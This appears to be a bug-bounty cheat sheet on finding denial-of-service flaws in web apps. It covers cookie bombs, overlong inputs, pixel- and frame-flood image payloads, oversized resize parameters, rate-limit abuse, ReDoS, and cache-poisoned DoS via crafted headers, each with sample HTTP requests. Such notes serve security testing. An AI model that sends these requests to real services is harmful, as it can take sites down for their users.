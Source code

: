 # Denial of Service

## Introduction
Denial of Service is a type of attack on a service that disrupts its normal function and prevents other users from accessing it

## Where to find
This vulnerability can appear in all features of the application. Depending on how to exploit it, for example in the file upload feature, you can upload very large files

## How to exploit
1. Cookie bomb
   
```
https://target.com/index.php?param1=xxxxxxxxxxxxxx
```
After input "xxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

2. Try input a very long payload to form. For example using very long password or using very long email
```
POST /register HTTP/1.1
Host: target.com
...

username=victim&password=aaaaaaaaaaaaaaa
```

3. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://daffa.tech/lottapixel3.jpg)

4. Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

5. Sometimes in website we found a parameter that can adjust the size of the image, for example
```
https://target.com/img/vulnerable.jpg?width=500&height=500
```
Try change "500" to "99999999999"
```
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

6. Try changing the value of the header with something new, for example:
```
Accept-Encoding: gzip, gzip, deflate, br, br
```

7. Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests

8. ReDoS (Regex DoS) occurs due to poorly implemented RegEx

9. CPDoS ([Cache Poisoned Denial of Service](https://cpdos.org/))
- HTTP Header Oversize (HHO)
  
  A malicious client sends an HTTP GET request including a header larger than the size supported by the origin server but smaller than the size supported by the cache
  ```
  GET /index.html HTTP/1.1
  Host: victim.com
  X-Oversized-Header-1: Big_Value
  ...

  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...

  Header size exceeded
  ```
- HTTP Meta Character (HMC)
  
  this attack tries to bypass a cache with a request header containing a harmful meta character. Meta characters can be, e.g., control characters such as line break/carriage return (\n), line feed (\r) or bell (\a).

  ```
  GET /index.html HTTP /1.1
  Host: victim.com
  X-Meta-Malicious-Header: \r\n
  ...
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...

  Character not allowed
  ```
- HTTP Method Override (HMO)

  There are several headers present in HTTP Standard that allow modifying overriding the original HTTP header. Some of these headers are:
  ```
  1. X-HTTP-Method-Override
  2. X-HTTP-Method
  3. X-Method-Override
  ```
  The header instructs the application to override the HTTP method in request.
  ```
  GET /index.php HTTP/1.1
  Host: victim.com
  X-HTTP-Method-Override: POST
  ...
  ```
  The response is
  ```
  HTTP/1.1 404 Not Found
  ...

  POST on /index.php not found
  ```

- X-Forwarded-Port
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Port: 123
  ...
  ```

- X-Forwarded-Host
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Host: www.hackerone.com:123
  ...
  ```
  
![Response DoS](https://portswigger.net/cms/images/6f/83/45a1a9f841b9-article-screen_shot_2018-09-13_at_11.08.12.png)

## References
- [Hackerone #840598](https://hackerone.com/reports/840598)
- [Hackerone #105363](https://hackerone.com/reports/105363)
- [Hackerone #390](https://hackerone.com/reports/390)
- [Hackerone #400](https://hackerone.com/reports/400)
- [Hackerone #751904](https://hackerone.com/reports/751904)
- [Hackerone #861170](https://hackerone.com/reports/861170)
- [Hackerone #892615](https://hackerone.com/reports/892615)
- [Hackerone #511381](https://hackerone.com/reports/511381)
- [Hackerone #409370](https://hackerone.com/reports/409370)
- [CPDoS](https://cpdos.org/)